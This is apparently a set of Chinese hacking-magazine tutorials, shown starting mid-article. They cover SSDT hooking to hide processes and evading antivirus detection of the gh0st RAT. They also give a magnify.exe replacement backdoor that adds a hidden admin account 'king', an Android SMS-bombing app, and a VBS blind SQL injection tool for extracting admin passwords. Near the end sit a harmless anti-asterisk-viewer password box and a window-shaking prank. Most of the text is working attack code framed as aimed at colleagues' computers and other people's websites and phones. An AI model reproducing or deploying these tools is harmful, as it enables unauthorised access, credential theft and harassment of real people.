返回结果包含了所有活动进程的信息，活动进程的信息被分块保存，上述结构定义仅仅部分描述了一个信息块的结构。ZwQuerySystemInformation()函数返回的结果是一个信息块链条，通过最初的指针和块间地址增量或者称作偏移的东西动态计算出下一个信息块的地址，链条的起始信息块的地址就是SystemInformation的值，下一个信息块的偏移在当前信息块的NextEntryDelta字段中保存。信息块中包含许多信息，我们只关注其中 `ProcessName` 字段，它描述了进程的名字。我们的钩子函数被设计为过滤特定名称的进程，纳入隐藏的范围。所以这个字段对我们来说是重要的。这个字段是一个 `UNICODE_STRING` 结构，这个结构被定义为：

```c
typedef struct _UNICODE_STRING {
    USHORT  Length;
    USHORT  MaximumLength;
    PWSTR   Buffer;
} UNICODE_STRING, *PUNICODE_STRING;
```

其中的 `Buffer` 以宽字符实际存储了字符串。

钩子函数的主要代码完成遍历信息块链条的工作，我将需要隐藏的信息块，通过增加前一个信息块地 `NextEntryOffset` 字段的值，使得前一个信息块加上偏移后直接指向本信息块的下一个信息块，从而把本信息块隐藏掉，也就隐藏了相关的进程的信息。在开始比较之前，有必要首先判断当前指向的信息块的字段 `ProcessName.Buffer` 是否是空值，否则使用 `memcmp()` 函数将其同预置的名称进行比较。因为比较对象是宽字符串，所以比较长度是字符数目的二倍。在示例程序中我们指定了完整的进程名，这样只能隐藏特定于这个进程名的进程。只需要在判断条件上作出一点很小的改变就能使这个技术更加具有通用性。我参考的部分代码就使用了如下的代码进行判断。

```
...

if (0 == memcmp(curr->ProcessName.Buffer, L"_root_", 12))

......
```

要说明的代码就是这些了，至于那些处理链条的代码，虽然复杂些，但意义明确，就不再多费口舌了。

在最后，当隐藏进程的驱动程序要卸载的时候，必须将 SSDT 改回来，否则因为驱动程序目前指向本驱动程序的一个函数，当本驱动程序卸载后，SSDT 中的表项将指向无效内存，然后当有对 `ZwQuerySystemInformation()` 函数的调用的时候，会发生什么就不好说了，多半系统就会崩溃吧。驱动程序的 `OnUnload` 例程也就一句话，代码如下：

```c
void OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    KeServiceDescriptorTable.ServiceTableBase = (PULONG)ZwQuerySystemInformation;
    return;
}


```

以上就是运行在内核态的驱动程序的全部源代码。

在文末做个小小的总结吧。本文中，我们通过大量的篇幅讨论了如何通过挂钩 SSDT 隐藏进程的方法，并以一个简单的程序作为示例。读者可以将以上示例程序做一些简单的修改，从而能使随心所欲的隐藏自己想要隐藏的进程。若对文中的解释一时无法理解透彻，建议读几次代码，因为代码本身就是一份很好的说明。最后，希望本文对读者有所帮助。

# VB编写WEBSHELL生成器

妖蓝

在大家进行入侵检测的过程中，一定会用到很多WEBSHELL和一些脚本文件，但是纯文本的文件很容易被修改，而且容易搞混，在网吧环境中也很是不便，所以我们可以做一个生成器把常用的脚本收集起来，既能防杀又能起到收集整理的作用。我们要用到VB6.0标准版（完整版也可以，精简版不行），然后要整理好自己常用的WEB-SHELL。

打开VB6.0，新建标准EXE工程，点击菜单栏中的“外接程序”，在弹出的对话框中选择“VB6资源编辑器”，在“加载行为”标签中选择“加载/卸载”，然后点击确定，如图1。我们会在工具栏发现一个类似魔方的图标，一会要用到。
创建用户界面，我们要先拖一个单选框，然后复制并粘贴它，接着会弹出一个对话框，询问是否创建控件数组，我们选择“是”。要注意的是，控件的顺序不能乱放，必须一个接一个，否则下面生成的木马不能一一对应。控件的名称就是生成木马的文件名，所以要带上后缀，你如果看着不爽也可以调整单选框长度把后缀隐藏起来。我们还可以加上底图和免责声明，我做好的界面如图2。
接下来根据单选框的名称添加WEB-SHELL资源，打开VB资源编辑器，就是那个类似魔方的图标。在弹出的窗口中点击第12个图标，添加自定义资源，按照单选框的名称依次添加WEBSHELL，如图3。添加完毕后，为了方便以后扩展功能，最好把资源文件保存一下，点击VB资源编辑器里的第3个图标就可以把已整理好的WEBSHELL资源保存成文件，下次编辑的时候就不用再添加WEBSHELL了，本文用到的资源文件会打包给大家。
一切准备就绪，接下来添加生成WEB-SHELL的代码，虽说代码是一个程序的灵魂，但是本文的代码其实很简单，双击任意一个单选框，填入如下代码：

第二处是InstallModule字段，在server文件下搜索InstallModule，会搜到六处，只有三处是特征的位置（"InstallModule"），如下所示：

```
WriteRegEx(HKEY_LOCAL_MACHINE, StrSubKey,
    Key, "InstallModule", REG_SZ, StrInstallModule, NULL, 1)
WriteRegEx(HKEY_LOCAL_MACHINE, StrSubKey, StrInstallModule,
    REG_SZ, NULL, NULL, 3);
```

可以将"InstallModule"中的InstallModule改为任意字串，我这里改为了hackerxfiles。

第三处是杀ReleaseMutex和CloseHandle函数。在sychost.cpp文件下，位置如下：

```
ReleaseMutex(hInstallMutex);
CloseHandle(hInstallMutex);

BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        ...
    }
    return TRUE;
}
```

对于杀函数，还是直接用异常来处理，有的又字可能会想在前面加花指令，你可以尝试下，是不免杀的，它是杀在这个函数上的，所以说有时候定位到某个位置信上加花指令，不免杀的时候就用try catch结构。改为如下所示：

```
try
{
    if (hInstallMutex != NULL) throw 666;
}
catch (...)
{
    ReleaseMutex(hInstallMutex);
    CloseHandle(hInstallMutex);
}
```

return；至此所有的特征码就修改完了，打开卡巴杀毒测试一下，已经查杀了（如图1），测试也能上线（如图2）。

代码里的throw后面的数字随便写。下面说下dat文件的特征码位置及其修改方法。只有三处特征。其实是和dll第二处特征码一样。只不过搜索位置要改到install文件下，也是三处和dll一样的代码，改法一样，这里就不贴代码了。最后在install.cpp的memfind改数字并加入几句花指令。

```
asm{
    nop
    nop
    nop
}


```
（文章中所涉及到的gh0st3.6_src已经收录在光盘中）

# 另类后门轻松绕过系统密码验证

黎歌

最近一个朋友向我求助，他刚上班，公司还没给配电脑，只能蹭同事的电脑用，不过电脑都有密码。我原本是想教他直接把密码给破了的，不过他说同事的密码会经常改。好吧，就做个后门吧。

## 一、后门构思

原本是想弄个粘滞键后门，想想还是算了，粘滞键后门太多人用了，还是弄点不常用的吧。找了半天，决定在辅助工具管理器上面下手（可按Win + U打开），如图1。但是不能直接从它身上下手，辅助工具管理器里面有两个小工具，一个是放大镜（“magnigy.exe”），一个是屏幕键盘（“osk.exe”）。我的构思是这样的，将放大镜改名为“magnigy 1.exe”，再把我们的后门复制到System32目录下，更名为“magnigy.exe”。当我们的后门打开时，检测NumLock灯是否亮起，再检测CapsLock灯是否亮起，最后检测ScrollLock灯是否亮起，如果是的话，添加一个用户，没有的话则删除特定的用户，详细的流程如图2。
## 二、编程实现

编程语言选择VB，IDE是VB6.0。我们做这个后门需要用上API函数，什么是API函数呢？API说到底就是一系列的底层函数，是系统提供给用户用于进入操作系统核心，进行高级编程的途径。通过在Visual Basic应用程序中声明外部过程就能够访问Windows API(以及其它的外部DLLs)。在声明了过程之后，调用它的方法与调用Visual Basic自己的过程相同。

我们这里要用到的API函数就是GetKeyState函数，这个API函数的作用是查询某个键的当前状态，若我们查询的键处于按下状态则会返回1，不处于按下状态则返回0。

在VB里调用API函数需要声明，声明很简单，只要在程序的声明处输入声明的代码就可以了，代码可以在网上找到。这里提供一本电子书，里面收录有常用的API函数，而且提供VB的声明代码，图3就是电子书对GetKeyState函数的解释。
打开VB6，新建“标准EXE工程”，在工程资源管理器中移除“Form1”，再添加一个模块。我们添加模块之后，在弹出的代码编辑框输入GetKeyState函数的声明代码。

好了，GetKeyState函数的声明工作我们已经完成了，接下来就是后门的代码编写，主要代码如下：

```
Sub Main()
    If GetKeyState(20) = 1 Then
        20是CapsLock键的ASCII值
    If GetKeyState(144) = 1 Then
        144是NumLock键的ASCII值
    If GetKeyState(145) = 1 Then
        145是ScrollLock键的ASCII值
```

```
Shell("net1 user king king add")
如果三个灯都亮了则执行添加账户的命令
Shell("net1 localgroup administrators king add")
执行将之前加的账户提升至管理员：
ElseIf GetKeyState(145)=0 Then
如果ScrollLock灯没有亮起，则执行下面的命令：
Shell("net1 user king del")
把我们添加的用户删除：
Shell("cmd.exe /c rd /s /q "&docume~1&"\king")
毁尸灭迹，把用户文件夹也给删掉：
ElseIf GetKeyState(144)=0 Then
如果NumLock灯没有亮起，则执行下面的命令：
Shell("magnify1.exe")
运行正常的放大镜：
ElseIf GetKeyState(20)=1 Then
Shell("magnify1.exe")
End If
```

```
End If
End If
End Sub


```

“net1 user king king add”的作用是添加一个账户名和密码都为king的账户，大家只需把“king”改成自己想要的行了，还有后面的命令也要改哦。除此之外，Windows NT系统有WFP机制，即保护系统文件。这个机制很好突破，只需将我们的后门在复制到System32目录的同时，也复制一份到System32下的dllcache目录中，还有一点dllcache目录默认是隐藏的，需要展开我的电脑菜单“工具”→“文件夹选项”，切换到“查看”选项卡，在隐藏文件和文件夹那选择“显示所有文件和文件夹”。

好了，文章到这里就结束了。大家有什么问题可以到X档案论坛联系我。

（本文所涉及的软件：API For VB、后门及其源代码已收录在本期光盘中）

# Android手机短信狂发器

黑酷

现在Android的开发越来越火，Android平台应用程序也越来越多例如：“玩游戏、上网、听音乐……”现在的Android在安全方面也很好，有些人利用手机的恶意软件攻击他人的Android手机，但是他们那样的做法也不是太好，接下来就让我给大家介绍一下怎么才能让别人很反感的看到你的短信。

首先，我们需要搭建一个Android手机开发环境，这个环境搭配在网上也有，我所搭建环境工具如下：

- （1） JAVA的IDE开发工具—Eclipse
- （2） Java开发包 — Java SE Development Kit (JDK) JDK 6
- （3） Android开发包 — Android SDK
- （4） Android开发插件(ADT- plugin)

这些工具在网上也有很透彻的步骤在这里我就不给大家一一介绍了。

搭配好环境以后，我们开始来写Android手机短信狂发器这个程序了，首先我们需要建立一个Android项目，那么，这个Android项目怎么创建呢？首先，我们点击菜单栏里的“File”→“New”→“Android project”我们在“New Android project”菜单中的“project name”里填写上新建工程的名字，然后在“Build Target”里面选一个Android SDK的版本，我建议选择的越新越好，然后在“propercise”栏里“Application name”框中填写一个应用程序名，然后在“Package name”框中填写一个包名（包名的格式一般是“作者名.程序名”），然后在“Create Activity”框中填写一个Activity的名，在“Min SDK Version”的框中写上你所选的最小SDK版本，你所选的版本要与Api的版本相对应，最后点击“Finish”即可完成Android项目的创建（如图1）。

建 立 好Android项目以后，我们来写一个“图形布局”因为有了这个图形布局运行界面我们发短信就方便了一点，只要有了这个运行界面我们就可以利用这个界面就可以无限发送短信了，点击
res→layout→main.xml，打开以后我们把下面的这段代码写在上面。

```
<TextView
    android:layout_width="fill_parent"
    android:layout_height="wrap_content"
    android:text="@string/qingshurushoujiaohaoma"
    />
```

这段代码写的是“请输入手机号码”这几个字。

```
<EditText
    android:layout_width="fill_parent"
    android:layout_height="wrap_content"
    android:id="@+id/qishurushoujiaohaoma"
    />
```

这段代码写的是“请输入手机号码”的框。

```
<TextView
    android:layout_width="fill_parent"
    android:layout_height="wrap_content"
    android:text="@string/qingshuruduanxinneirong"
    />
```

这段代码的意思是“请输入短信内容”这几个字。

```
<EditText
    android:layout_width="fill_parent"
    android:layout_height="wrap_content"
    android:id="@+id/qingshuruduanxinneirong"
    />
```

这段代码的意思是“请输入短信内容”的框。

```
<TextView
    android:layout_width="fill_parent"
    android:layout_height="wrap_content"
    android:text="@string/fasonganniu"
    />
```

这段代码的意思是“发送按钮”这几个字。

```
<Button
    android:layout_width="wrap_content"
    android:layout_height="wrap_content"
    android:text="@string/fasonganniu"
    android:id="@+id/fasonganniu"
    />
```

这段代码的意思是发送短信按钮的键子（如图2）。

如果不写上面的那几句代码，那么图二中的文字就显示不出来了。

填写好以上代码以后，接下来我们在res→values→strings.xml这里填写以下代码。

```
<string name="qingshurushoujiaohaoma">请输入手机号码</string>
<string name="qingshuruduanxinneirong">请输入短信内容</string>
<string name="fasonganniu">发送按钮</string>
```

完成上面的操作接下来我们就在src→faduanxin→duanxin.java里面填写以下代码：

```
mobileText = (EditText)this.findViewById(R.id.qishurushoujiaohaoma); //取手机号的值
contentText = (EditText)this.findViewById(R.id.qingshuruduanxinneirong); //取短信的内容
Button button = (Button)this.findViewById(R.id.fasonganniu); //定义一个按钮
//添加一个点击事件
button.setOnClickListener(new View.OnClickListener() {
    public void onClick(View v) {
        String mobile = mobileText.getText().toString(); //获得手机号
        String content = contentText.getText().toString(); //获得信息内容
        @SuppressWarnings("deprecation")
        SmsManager smsManager = SmsManager.getDefault(); //发送的信息内容
        while(true){
            smsManager.sendTextMessage(mobile, null, content, null, null); //循环的发送短信
        }
    }
});


```

这段代码是通过this.findViewById函数得到了R.id里的qishurushoujiaohaoma对应的手机号的值赋值给了mobile-
Text，通过this.findViewById函数得到了R.id里的qingshuruduanxinneirong对应的短信内容最后赋值给了contentText，通过this.findViewById函数得到了R.id里的fasonganniu发送按钮最后赋值给了Button button，添加一个点击按钮，当点击了这个按钮他就执行以下的操 作，通过mobileText.getText函数转换成字符串的格式并赋值给了String mobile这个变量，通过contentText.getText函数转换成字符串的格式并赋值给了String content这个变量，通过SmsManager.getDefault函数转换成字符串的格式并赋值给了SmsManager smsManage，意思就是说发送短信的内容，“while(){}”这个是一个句式，这个句式代表的意思就是通过小括号里的信息是否为“真实”如果是真实的那么就执行大括号里面的内容，小括号里写的是“true”代表的意思就是真实的，接下来他就会立刻循环执行大括号里面的内容。
以上的代码写完了，接下来就让我们一起试验一下，看看这个程序好不好用是否能达到给予对方发送无限条短信的功能！“5554”装上短信狂发器给“5556”发送短信（如图3）。
试验结果表明这个软件可以实现手机狂发短信的功能，好了，到这里也应该结束了，如果有不明白的可以与我联系加我QQ，我的QQ是664933772。
（文章中所涉及到的源代码已收录在光盘中）

# 对抗星号密码查看器

常笑鹰

星号密码相信是大家再熟悉不过的东西了。无论是上QQ、登陆论坛或邮箱，都会看到这种技术的成果。不过，很多时候我们用星号密码查看器就可以看到其中的内容，这个时候你会怎么想？

## 一、起源

这件事还要追溯到09年的国庆，当时我们刚考完试，因为成绩不好被老师骂了一顿，对我说：“你有哪一科是考得好的！”当时自尊心受到极大的伤害，家长又不理解以为我乱发脾气。所以我就去同学家住了几天。我同学有个习惯，就是将QQ密码保存在本机上的，住校的时候就让他弟弟帮他挂机。看着那一颗颗实心的小点，我立即拿出了星号密码查看器放了上去。结果令我大吃一惊，居然显示的是空白（现在已经改成了友情提示）！那时我不得不佩服TX，于是就想看这个东西是怎么做出来的。
后来慢慢的开始接触VB，思索着先用VB做一个防星号查看的密码框。起先我以为有那么一个API可以直接用

的，但是上网找了很久，居然发现都没人讨论过这个问题。我还问了qw22321，当时他也不知道。于是直到我的第一个思想萌发……
## 二、最初的模型

我的第一个想法如下（过程图如图1，其实一部分想法是正确的）。
我们可以监视文本框的行为，来判断用户对密码的操作，就是输入和删除。然后判断最终密码，过程中我们使文本框始终输出星号。具体过程就是先定义一个字符串pwd，然后监视文本框textbox1，当用户输入一个字符时，便取

## 黑客编程

textbox1最末段字符，加到pwd中，再将textbox1末端的字符变为“*”。我们定义的pwdLen来记录每次改变后的长度，当textbox1的长度比pwdLen长时，说明用户增加字符，否则就是删除。

代码如下：

```
Private pwdLen As Integer '定义原长
Private Pwd As String '密码

Private Sub Form_Load()
    pwdLen = 0 '密码初始长度
End Sub

Private Sub Text1_Change()
    If Len(Text1.Text) > pwdLen Then '长度增加时
        If pwdLen = 0 Then '判断是否为0，然后增加字符
            Pwd = Text1.Text
            Text1.Text = "*"
            pwdLen = Len(Text1.Text)
        Else
            Pwd = Pwd & Right(Text1.Text, 1)
            Text1.Text = Left(Text1.Text, Len(Text1.Text) - 1) & "*"
            pwdLen = Len(Text1.Text)
        End If
    End If
    If Len(Text1.Text) < pwdLen Then '长度减小时
        If pwdLen = 1 Then '判断是否为1，然后减少字符
            Pwd = ""
            lenpwd = Len(Text1.Text)
        Else
            Pwd = Left(Pwd, Len(Pwd) - 1)
            pwdLen = Len(Text1.Text)
        End If
    End If
End Sub


```

在这里可以发现，我两次都对pwdLen先进行了判断。第一次在增加字符时判断，是因为当pwdLen=0时，len(text1.text)=1，left(text1.text,0)就会出错。而同样在删除字符的时候，要确保不会出现left(pwd,0)的情况出现。好了，我们运行代码，输入文本，结果出现了这样的情况（如图2）。其实，我们看代码是的确没有错的，只是代码使textbox1发生了变化。大家仔细看看，我们在使用text = "*"的时候，实际上是对text1.text进行一个赋值，这个时候textbox1的change事件就又被激活了一次，然后再次执行我们的代码。所以就会出现上面的情况。
### 三、过程修改

好吧，我承认，上面的代码我是没法改的了。所以其实我当时停了挺长一段时间没有动它，后来才想到其实我们可以把change事件改成用keypress事件来判断的。当textbox控件的keypress事件触发，也就是当你按下键盘的时候，就会执行中间的代码。我们如果利用keypress事件来代替的话，就能排除了重复执行change过程代码的干扰。

现在看一下我重新写的代码：

```
Private PassWord As String
Const pwdChar = " "

Private Sub Command1_Click()
    MsgBox PassWord
End Sub

Private Sub Text1_Click()
    SelPos = Text1.SelStart
End Sub

Private Sub Text1_DblClick()
    Text1.SelLength = 0
End Sub

Private Sub Text1_KeyDown(KeyCode As Integer, Shift As Integer)

Dim s As String
    s = Text1.Text
    i = Text1.SelStart
```

```
If KeyCode = 46 Then
    If Len(PassWord) >= 1 And i < Len(PassWord) Then
        PassWord = ""
        Text1.Text = ""
    End If
    If PassWord <> "" And i < Len(PassWord) And Len(PassWord) > 1 Then
        PassWord = Mid(PassWord, 1, i - 1) & Mid(PassWord, i + 2, Len(PassWord))
        s = Mid(s, 1, Len(PassWord))
        Text1.Text = s
        Text1.SelStart = i
    End If
End If

End Sub

Private Sub Text1_KeyPress(KeyAscii As Integer)
    Dim s, c As String
    s = Text1.Text
    i = Text1.SelStart
    c = Chr(KeyAscii)
    If KeyAscii > 31 And KeyAscii < 126 Then
        If PassWord <> "" Then
            If i = 0 Then
                PassWord = c & PassWord
            Else
                PassWord = Mid(PassWord, 1, i) & c & Mid(PassWord, i + 1, Len(PassWord))
            End If
            s = s & pwdChar
            Text1.Text = s
            Text1.SelStart = i + 1
        End If
        If PassWord = "" Then
            PassWord = c
        End If
    End If
End Sub
```

```
s = s & pwdChar
Text1 = s
Text1.SelStart = i + 1
End If
End If
If KeyAscii = 8 Then
    If i <> 0 Then
        PassWord = Mid(PassWord, 1, i - 1) & Mid(PassWord, i + 1, Len(PassWord))
        s = Mid(s, 1, Len(s) - 1)
        Text1.Text = s
        Text1.SelStart = i - 1
    End If
End If
End Sub


```

我们先试试效果。看起来不是很好（如图3）。仔细看了看，发现代码是没有问题的，只是忘记设置控件的属性了。我们将TEXTBOX的Locked属性设为True。因为我们在输入密码时就对密码框进行了一个操作，代码又进行了一次操作，所以会出现这样的情况，当我们设置好后就OK了。再来测试一下，效果就（如图4）一样了。之后我们再将TEXTBOX的PasswordChar属性改成“*”就完成了。
### 四、最后的完善

这个问题是我纠结了很久的问题，也是对于一个菜鸟来说很麻烦的问题。表面上看起来，这个程序是没有问题了，而实际上我们想想，我们在输入密码的时候是怎么输入的。相信很多人还是习惯性的顺序输入，虽然说输入顺序的问题我在代码中已经看似解决了，然后也发现了最大的问题。就是如果用户点到全选什么的怎么办？大家用代码测试也可以知道是什么问题。那么如何来解决这个问题呢，这是个值得思考的问题。

起先我想了一种办法，先弄一个timer控件，间隔为弄到最小，然后代码中写上text1.selLength=0。这样子虽然表面上可以解决问题，但是如果操作快一些的话一样会出现错误。后来正巧在网上弄到一份高仿QQ2009的源码，下来看了一下。发现里面的密码框已经实现了这个技术。这个工程里面的密码框是个控件，本来想直接用的，不过看也不可能，代码N行，加上控件模块之间联系紧密，就放弃了这个想法。但是没办法啊，必须要把这个东西做出来吧。就看着代码一点一点的删掉没用的，删到其中一段的时候IDE就崩溃了。

代码如下：

```vb
Public Function WindowProc(ByVal hWnd As Long, ByVal uMsg As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
    Select Case uMsg '判断消息类型
        Case WM_RBUTTONUP
            Exit Function
        Case WM_MOUSEMOVE
            If wParam = 1 Then Exit Function
        Case WM_KEYDOWN
            If wParam <> 20 Then
                If wParam = 37 Then
                    If SelPos > 0 Then SelPos = SelPos - 1: txtMain.SelStart = SelPos
                    Exit Function
                End If
                If wParam = 39 Then
                    If SelPos < PwdLen Then SelPos = SelPos + 1: txtMain.SelStart = SelPos
                    Exit Function
                End If
            End If
    End Select
    WindowProc = CallWindowProc(OldProc, hWnd, uMsg, wParam, lParam)
End Function
```

大家都知道这只是个函数而已嘛，肯定是哪个地方调用了，所以才会出错。起先我也是这么想的，然后就在剩下的代码中寻找调用这个函数的代码，遗憾的是没找到。不得已之下只好找到这个工程的原作者vIs taswx，原来运用的是子类化。子类化允许你接管被子类化的窗口，使你对它有绝对的控制权。不过这的确是一个函数啊，没有调用删掉怎么会出错呢？其实他在控件当中还用了一段汇编代码，因为他告诉我VB对于类的实现和模块不同（如图5），汇编中的代码就是调用函数所用的代码。所以到后来这个东西我没办法改，让他帮了个小忙。

> 『落』常笑鹰 23:56:52
> 不能直接 addressof WindowProc什么的？
> vIs taswx.com 23:57:03
> 说了addressof只支持模块内函数
> vIs taswx.com 23:57:09
> 不支持类中的
> 『落』常笑鹰 23:57:17
> 就是bas中？
> vIs taswx.com 23:57:19
> 嗯。
> vIs taswx.com 23:57:28
> vb对于类的实现跟模块是很不一样的。。

图5

增加了以下代码：

```vb
Private Sub Form_Load()
    TextBoxOldWndProc = SetWindowLong(Text1.hWnd, GWL_WNDPROC, AddressOf MyTextBoxWindowProc)
End Sub
Private Sub Form_Unload(Cancel As Integer)
    If TextBoxOldWndProc Then SetWindowLong Text1.hWnd, GWL_WNDPROC, TextBoxOldWndProc
End Sub
```

再结合上面的代码，大致意思就是当TEXTBOX接受到消息的时候就拦截、我们自己对它进行操作，在这里主要是操作TEXTBOX的selstart对象。然后到这里代码就算全部结束了，测试也非常顺利。

### 五、后记

其实这个工程我在初三的时候就想着做了，那时刚接触VB不久，所以很多基础的东西都不懂，做起来就麻烦了许多。但是在这个过程当中想法不断的改变（主要是因为存在错误），觉得还是收获了蛮多的东西。还有一个很幼稚的想法在这里就不说出来了，有兴趣的可以单独聊。子类化技术是我在接触这个工程后才去关注的，现在也是在学习当中。在我看来也就是对WINDOWS消息的操作吧。在这里特别感谢vistaswx兄。希望大家也能在学习中不断发现问题，然后想办法解决。

（文章中所涉及到的源码已收录在光盘中）

## 打造自己的注入工具

妖蓝

搞站的时候一直都用人做的工具，心里很不爽啊，虽然把一些工具的版权改了，但还是自欺欺人，所以本人自己用VBS写了一个注入工具，介绍给大家交流使用，希望大家黑站更HAYYP，让菜鸟离高手更进一步。本文适合有一定VB基础的朋友。

### 一、工具原理

工具通过一个自定义的checkpage函数检测页面是否正确，checkpage中的PostData函数使用XMLHTTP对象用于打开指定页面，PostData中的bytes2BSTR函数转换二进制为字符串。自定义函数injectfun使用折半查找法（看不懂代码的查百度吧）猜解某一个变量的临界点。工具是半自动的，注入语句要自己写，把要猜测的数据用转义字符代替，默认是“yao”和“lan”。比如猜测字段用“or der by yao”，猜测MD5或管理员账号用“and (select top 1 asc(mid(password,lan,1)) from admin)>yao”。这里“lan”在外循环，“yao”在内循环，两个函数如下：

```vb
function injectfun(url)
begin=1        '猜解上限
stop=126       '猜解下限
do while begin<>stop
num=(begin+stop)/2     '得到中间值
wscript.echo num       '输出
viewurl=url
viewurl=replace(viewurl,yao,num)      '转义关键字
if checkpage(viewurl,keyword) then    '判断页面并半拆猜解
begin=num+1
else
stop=num
end if
loop
injectfun=begin        '函数返回值
end function
```

```vb
Function checkpage(PostUrl,word)
strData = PostData(PostUrl)       '得到页面文本
if InStr(strData,word) > 0 then   '判断是否正确
checkpage = True
Else
checkpage = False
End If
End Function
```

### 二、全局功能选择

工具有三个功能模块，分别是单变量猜解，双变量猜解，字典猜解。为避免重复启动工具，使用了大的死循环和内循环，使用inputbox读入数据。全局代码如下（我用冒号代替了回车）。

```vb
do
injur1=inputbox("注入点","默认注入点链接")
keyword=inputbox("关键字","默认关键字")
```

```vb
method=inputbox("猜解模式",,2)
do while method<>0  '模式为0直接退出小循环
select case method
case 1:onevariable()  '单变量
case 2:morevariable()  '双变量
case 3:tablecreak()  '字典猜解
end select
method=inputbox("猜解模式",,2)
loop
loop


```
图1

```vb
sub morevariable()
wscript.echo "双变量猜解"
result=""
dim sql
sql=inputbox("注入语句",,"默认注入语句")
n1=inputbox("外循环循环起始",,1)
n2=inputbox("外循环循环结束",,16)
now1=now()
for i=n1 to n2
    wscript.echo "正猜第" &i& "位"
    data=replace(sql,lan,i)
    '转义关键字
    result=result&chr(injectfun(injurl&data))
    '猜解合并字符
    wscript.echo "结束"
    wscript.echo  '空一行
next
with wscript
    .echo "+"&string(40,"-")&"+"
    .echo "用时:"&now1
    .echo "         "&now
    .echo "猜解完成:"&result
    .echo "+"&string(40,"-")&"+"
end with
end sub
```

### 三、单变量猜解

这个函数可以猜测字段数，管理员密码长度，准确的说它应该叫过程，因为它没有返回值。需要注意的是，因为使用折半查找法，构造语句时比较符号一定要用大于号“>”，否则不能正常使用。

代码如下：

```vb
sub onevariable()
wscript.echo"单变量猜解"
sql=inputbox("注入语句",," and (select len(password) from admin)>yao")
result=injectfun(injurl&sql)
'得到结果
wscript.echo "+" & string(40,"-") & "+"
wscript.echo "猜解完成:"&result
wscript.echo "+" & string(40,"-") & "+"
end sub


```

inputbox()的三个参数分别是，信息内容，对话框标题，默认内容。string()函数用来取得某相同字符的字符串，第二个参数里只有第一个字符有效。wscript.echo语句用来在命令行中输出数据，会自动换行，wscript.stdout.write语句不会自动换行，运行效果（如图1）。

### 四、双变量猜解

双变量猜解说白了就是另外加了个循环，可以理解成加强版的单变量猜解。

代码如下：

双变量猜解需要手动输入循环起始和终止值，可以从

单变量猜解得到，循环前会调用now()函数记录时间。代码用到了计次循环来循环调用injectfun()来猜解数据，输出时使用了with结构简化代码。运行效果（如图2），啊D连猜长度加猜数据用了15秒，咱的用了16秒。
### 五、字典猜解

字典猜解主要是猜解表名，字段名和列名的。用TXT文本存放，一行一个，调用FSO逐行读取，同样转义字符检测页面。

代码如下：

```
sub tablecreak()
    wscript.echo "字典猜解"
    sql=inputbox("注入语句","默认注入语句")
    result=""

    Set FSO=CreateObject("Scripting.FileSystemObject")

    Set TextFile=FSO.OpenTextFile("table.txt",1)

    now1=now()

    Do Until TextFile.AtEndOfStream
        '判断是否到文件尾
        tablestr= TextFile.ReadLine
        '逐行读入
        wscript.echo tablestr
        data=replace(sql,"yao",tablestr)
        '转义关键字
        if checkpage(injurl&data,keyword) then
            result=result & tablestr & vbcrlf
            '存储结果
            wscript.echo string(20,"-")&"发现:"&tablestr
        end if
    Loop

    with wscript
        echo string(40,"*")&"输出"
        echo "用时:"&now1
        echo    "&now
        .echo   "&now
        .echo "猜解完成:"&vbcrlf&result
        .echo "+"&string(40,"-")&"+"
    end with
    TextFile.Close '关闭文件
    set fso=nothing  '将FSO置空
end sub


```

先读取注入语句，再建创建FSO，接着打开文件，OpenTextFile的第二个参数是打开模式，参数如下。

- 1：打开一个只读文件，不能对此文件进行写操作。
- 2：打开一个用于写操作的文件。如果和此文件同名的文件已存在，则覆盖以前内容。
- 8：打开一个文件并写到文件的尾部。我们常见的QQ木马收信脚本使用的就是8这个模式。

判断循环的条件是否到文件尾，接着逐行读入、转义关键字、注入、存储结果、输出，运行效果如图3。
### 六、结尾的话

VBS开头定义了COOKIE，但是后面构造数据包那里我给注释了，需要就自己改吧。VBS里还有一个URLEncoding()函数，自己研究吧！工具里存了一个注入点，全部默认能看到效果。

工具的优点是很灵活，只要会写语句就能用，字符

## C语言初体验之小小恶作剧

寒冬飞雪

现在对C语言感兴趣的人不在少数，但是真正学下去的却寥寥无几，究其原因就是从C程序到windows程序这一过渡实在太困难且漫长。希望本文能给各位学C的同志带来一点乐趣，以解学C的寂寞和无聊。本文将带大家认识几个Windows API（API：应用程序编程接口）函数，并且用它们来搞点恶作剧。（注：本文的代码在VC6下通过，其他环境需建立正确的工程，大家自己尝试吧）

大家都用过QQ的窗口抖动功能吧，其实质就是把一个窗口快速移动了位置而已。我们可以用MoveWindow(HWND,int,int,int,int,BOOL)这个API函数来实现窗口的移动。这个函数需要6个参数，分别是被操作的窗口的句柄，移动后的窗口横纵坐标，移动后的窗口的宽度和高度，以及一个窗口重绘选项参数。

所谓窗口句柄可以理解为一个窗口（不只是窗口，还可以是一个按钮、菜单等）的唯一标识符，系统通过这个标识符可以唯一确定一个对象。好了，废话到此结束，下面上代码：

```c
#include <stdio.h>
#include <windows.h>//看头文件的名字就知道这个的作用了
int main(int argc,char *argv[])
{
    RECT rect;                                      // RECT是一个矩形结构体，相当于保存了一个矩形的四条边的坐标
    HWND hwnd=NULL,oldhwnd=NULL;                    // 两个窗口句柄
    int x,y,width,height;                           // 用来保存窗口横纵坐标和宽度、高度的变量
    int i;                                          // 这是一个循环变量
    for(i=0;i<50;i++)                               // 循环50次，也可以是死循环，不过还是厚道点好
    {
        hwnd = GetForegroundWindow();               // 今天的又一个API函数，获取活动窗口的句柄
        if(hwnd!=oldhwnd)                           // 判断窗口句柄是不是改变了
        {
            GetWindowRect(hwnd,&rect);              // 第三个API函数，获取指定窗口的位置
            x = rect.left;                          // 拿到了窗口的横坐标，即左上角的点
            y = rect.top;                           // 拿到了纵坐标
            width = rect.right - x;                 // 窗口右边的坐标减去左边的就是窗口的宽度
            height = rect.bottom - y;               // 同理，下面的减去上面的，即高度
            oldhwnd = hwnd;                         // 把刚刚获取的窗口句柄保存起来。
        }
        MoveWindow(hwnd,x-10,y,width,height,TRUE);  // 向左移动了10像素，下同
        Sleep(5);                                   // 暂停5毫秒
        MoveWindow(hwnd,x-10,y-10,width,height,TRUE);
        Sleep(5);
        MoveWindow(hwnd,x,y-10,width,height,TRUE);
        Sleep(5);
        MoveWindow(hwnd,x,y,width,height,TRUE);
    }
}
```

## 黑客编程

